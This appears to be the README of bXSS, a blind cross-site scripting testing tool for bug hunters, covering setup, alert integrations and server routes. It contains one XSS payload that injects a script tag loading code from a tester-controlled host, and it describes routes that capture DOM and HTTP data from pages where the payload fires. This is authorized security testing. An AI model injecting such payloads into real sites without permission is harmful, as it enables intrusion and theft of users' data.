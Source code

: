 # [bXSS](https://github.com/LewisArdern/bXSS)

<!-- prettier-ignore-start -->
<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>
<a href="https://lgtm.com/projects/g/LewisArdern/bXSS/context:javascript"><img alt="Language grade: JavaScript" src="https://img.shields.io/lgtm/grade/javascript/g/LewisArdern/bXSS.svg?logo=lgtm&logoWidth=18"/></a>
<!-- prettier-ignore-end -->

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Github](./Images/github.JPG)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Necessary

- Server you control
- Usable domain
- Node.js and Express.js

## Optional

- [SMTP](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol)
- [Twilio Account](https://www.twilio.com/sms)
- [Slack Token](https://api.slack.com/docs/token-types)
- [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
- [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token)
- [Github Access Token](https://github.com/settings/tokens)
- [Twitter Developer Account](https://developer.twitter.com/en/apply/user)
- [SSL/TLS Certificate](https://letsencrypt.org)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port.http = Port to run the Node.js app e.g 80
- Rename configExample.js to config.js

## Configuring Services

Services are optional, by default bXSS will save a markdown file to disk. If you don't want to use any service documented below, just delete the service from the config.

- Twilio
  - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
  - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
  - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
  - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
- Slack
  - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
  - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
  - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
- Cisco
  - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
  - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
- Discord
  - Steps to create a bot:
    - Visit https://discordapp.com/developers/applications/
    - Create a new application (e.g bXSSForCompany)
    - Make a note of your CLIENT ID
    - Select 'Bot'
      - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
    - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
    - Select the server you want your bot to join and authorize
    - Update the following values below for the bot to post to the 'text channel' e.g ('general')
  - config.discord.token = 'your bot token'
  - config.discord.channel = 'channel you want it to join, e.g general'
- Twitter
  - config.twitter.consumer_key = API Key
  - config.twitter.consumer_secret = API Secret Key
  - config.twitter.access_token_key = Application Access Token
  - config.twitter.access_token_secret = Application Access Token Secret
  - Permissions (Write)
  - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
- SMTP
  - config.smtp.user = email username
  - config.smtp.pass = email password
  - config.smtp.port = port you are connecting to e.g 465
  - config.smtp.host = host you are connecting to e.g smtp.example.com
  - config.smtp.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
  - config.smtp.tls = Use TLS, boolean true or false
- Github
  - [config.github.accessToken](https://github.com/settings/tokens) = ''
  - config.github.repo = '' an example is lewisardern/bXSS

## Setting Up HTTPS

Consider using a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv), but if you want to configure HTTPS using express, follow the steps below:

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
    - config.port.https = 443

## Starting The Application

Once you have configured the above, simply start the server with any available utility at the application root directory:

- node app.js
- nodemon app.js
- pm2 start app.js

# Using

Once the application is functional, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has the following routes:

- POST - /m (Captures DOM information)
- GET - /mH (Captures HTTP interactions)
- GET - /alert (displays alert(1))
- GET - /payloads (Gives payloads you can use for testing blind xss)
- GET - /\*\* (All other routes load the payload)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
